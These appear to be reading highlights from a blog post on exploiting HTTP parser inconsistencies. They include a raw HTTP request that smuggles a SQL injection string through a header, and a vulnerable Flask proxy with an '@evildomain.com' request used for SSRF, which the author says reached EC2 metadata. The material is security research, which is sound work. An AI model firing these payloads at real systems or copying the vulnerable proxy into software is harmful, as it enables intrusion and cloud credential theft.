 

Below is an example of an exploitation request:
 Copy
 Copy
 GET / HTTP/1.1\r\n
 Host: target.com\r\n
 X-Query: Value\r\n
 \t' or '1'='1' -- \r\n
 Connection: close\r\n
 \r\n
> [View Highlight](https://read.readwise.io/read/01jh59akzdfx46bdkghg8yqv06)



![](https://cdn.hashnode.com/res/hashnode/image/upload/v1686765362775/dbd69c56-503e-45bb-ada6-358d3d987ede.png?auto=compress,format&format=webp)
> [View Highlight](https://read.readwise.io/read/01jh59bp0p2h47cjmxx2xc9w4b)



SSRF on Flask Through Incorrect Pathname Interpretation
> [View Highlight](https://read.readwise.io/read/01jh59f7xk7qzt8480sm1nzbwe)



GET @/ HTTP/1.1 Host: target.com Connection: close
> [View Highlight](https://read.readwise.io/read/01jh59fb78bg4hgy3b8cyr1wp2)



Please consider the following source code as a reference for the exploitation scenario:
 Copy
 Copy
 from flask import Flask
 from requests import get
 app = Flask('__main__')
 SITE_NAME = 'https://google.com'
 @app.route('/', defaults={'path': ''})
 @app.route('/<path:path>')
 def proxy(path):
 return get(f'{SITE_NAME}{path}').content
 if __name__ == "__main__":
 app.run(threaded=False)
 Presented below is an example of an exploitation request:
 Copy
 Copy
 GET @evildomain.com/ HTTP/1.1
 Host: target.com
 Connection: close
 In the following example, I was able to fetch my EC2 metadata:
 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1686771183056/fe166abf-b2cb-41be-846b-11ac56b33d71.png?auto=compress,format&format=webp)
 [Permalink](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies/#heading-ssrf-on-spring-boot-through-incorrect-pathname-interpretation)
> [View Highlight](https://read.readwise.io/read/01jh59g346xx6n0jhbpfvkjxn3)


